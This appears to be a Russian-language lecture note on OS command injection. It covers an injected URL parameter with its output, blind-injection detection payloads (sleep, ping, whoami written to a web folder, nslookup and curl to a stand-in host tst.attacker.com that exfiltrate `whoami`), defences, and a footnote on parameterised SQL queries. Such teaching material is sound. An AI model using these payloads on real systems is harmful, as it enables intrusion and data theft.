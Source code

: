Пример:

http\://example.com/order?src\===1==&dst\===3== 
-> 
./vieworder.sh 1 3

http\://example.com/order?src\===& echo pwned &==&dst\===3== 
-> 
./vieworder.sh ==& echo pwned &== ==3==
->
Error - src was not provided
pwned
3: command not found

##### Blind OS command injection
- Вывод не отображается в возвращаемом ответе
- Сложнее детектировать, но также простая эксплуатация

Обнаружение:
1. Вызов временной задержки:
& ping -c 10 127.0.0.1 &
& sleep 10 &
2. Перенаправление вывода:
& whoami > /var/www/static/whoami.txt &
3. Внешняя коммуникация:
& nslookup tst.attacker.com &
& nslookup `whoami`.tst.attacker.com &
& curl tst.attacker.com &

##### Первичная разведка хоста
![[Lect4. SQLi. Часть 1-1758578971032.jpeg]]

**Однако любая из данных команд позволяет обнаружить присутствие атакующего**

##### Защита
- Белый список разрешенных символов
- Валидация, что ввод пользователя является числом
- Валидация что ввод пользователя содержит только буквы и цифры
- **Не позволять пользовательскому вводу достигать мест исполнения команд ОС**

[^1]: ...поскольку данные передаются полностью отдельно от запроса, у этих данных нет никаких возможностей модифицировать запрос. Нет возможностей. _Вообще никаких_. (Экзотические атаки типа переполнения буфера здесь мы не рассматриваем — это совсем другой класс атак). Данные не нужно экранировать, преобразовывать или как-то менять; они идут в базу данных в точно том виде, в каком нужны нам. Если нам передали строку `Robert');drop table students;`, не надо заботиться об экранировании, надо просто передать ее как связываемую переменную — ничего она нам не сделает, а так и будет просто лежать в базе данных, как самая обычная строка.
